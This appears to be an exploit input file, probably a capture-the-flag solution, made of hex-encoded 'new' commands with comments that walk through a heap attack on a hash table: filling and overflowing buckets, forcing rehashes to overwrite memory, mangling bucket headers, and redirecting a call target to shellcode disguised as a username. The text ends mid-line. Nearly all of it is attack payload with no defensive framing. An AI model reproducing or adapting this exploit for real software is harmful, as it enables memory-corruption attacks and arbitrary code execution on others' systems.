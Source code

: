 # fill bucket 1
6e6577200f20303b
6e6577201f20303b
6e6577202f20303b
6e6577203f20303b
6e6577204f20303b

# trigger rehash (add to bucket 5)
6e6577200520303b
6e6577201520303b

# overflow bucket 0 to hide bucket 2
6e6577208853a854b50e20303b

# overflow bucket 1 to mangle headers of bucket 2
6e657720103f9e4cb50720303b

# trigger rehash (therefore overwrite)
6e6577202520303b
6e6577203520303b
6e6577204520303b
6e6577205520303b
6e6577206520303b
6e6577207520303b
6e6577208520303b
6e6577209520303b
6e657720a520303b
6e657720b520303b
6e657720c520303b
6e657720d520303b
6e657720e520303b
6e657720f520303b
6e6577200620303b
6e6577201620303b
6e6577202620303b
6e6577203620303b
6e6577204620303b
6e6577205620303b

# trigger "user already exists, jumping to shellcode from overwritten call target"
6e6577201020303b

# make shellcode look like username
6e657720
